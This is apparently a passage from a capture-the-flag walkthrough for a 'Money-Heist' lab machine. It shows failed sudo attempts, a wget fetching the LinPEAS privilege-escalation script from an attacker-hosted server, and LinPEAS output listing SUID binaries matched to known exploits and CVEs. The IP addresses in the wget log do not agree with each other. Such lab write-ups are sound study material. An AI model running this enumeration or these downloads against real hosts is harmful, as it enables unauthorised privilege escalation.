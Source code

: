 Basic command to go higher privilege:

arturo@Money-Heist:/home$ sudo su
[sudo] password for arturo: 
arturo is not in the sudoers file.  This incident will be reported.
arturo@Money-Heist:/home$ sudo -l
[sudo] password for arturo: 
Sorry, user arturo may not run sudo on Money-Heist.

Failed......
Let's enumerate through the tool LinPeas

Linpeas means Linux Privilege Escalation Awesome Script.LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.

Get the linpeas.sh through local python server.

arturo@Money-Heist:~$ wget http://1192.168.1.11:8000/linpeas.sh
--2025-09-13 20:11:23--  http://192.168.1.11:8000/linpeas.sh
Connecting to 10.216.108.115:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 961834 (939K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh              100%[===============================>] 939.29K  --.-KB/s    in 0.004s  

2025-09-13 20:11:23 (222 MB/s) - ‘linpeas.sh’ saved [961834/961834]

Let's execute it..........
After execution there will be a lot of information but we need to look some particular info...
Let's look at files with Interesting permission.


══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                                                                          
                      ╚════════════════════════════════════╝                                                                                                                                                                                
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                                                                                                             
strings Not Found                                                                                                                                                                                                                           
---s-ws--x 1 nairobi denver 72K Feb 12  2016 /bin/sed                                                                                                                                                                                       
-rwsr-sr-x 1 tokyo tokyo 31K Dec  4  2012 /bin/nc.openbsd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 31K Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40K Jan 27  2020 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K May  8  2014 /bin/ping6
-rwsr-xr-x 1 root root 44K May  8  2014 /bin/ping
-rwsr-xr-x 1 root root 27K Jan 27  2020 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 40K Mar 27  2019 /bin/su
-rwsr-xr-x 1 root root 40K Mar 27  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 23K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)/Generic_CVE-2021-4034
-rwsr-xr-x 1 root root 39K Mar 27  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-sr-x 1 daemon daemon 51K Jan 15  2016 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 33K Mar 27  2019 /usr/bin/newgidmap
---s--s--x 1 denver denver 217K Feb  8  2016 /usr/bin/find
-rwsr-xr-x 1 root root 134K Feb  1  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 74K Mar 27  2019 /usr/bin/gpasswd
-rwsrwx--- 1 tokyo nairobi 6.3M Jun 10  2017 /usr/bin/gdb
-rwsr-xr-x 1 root root 53K Mar 27  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 71K Mar 27  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 33K Mar 27  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 109K Jul 11  2020 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 83K Apr 10  2019 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 15K Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root messagebus 42K Jun 12  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device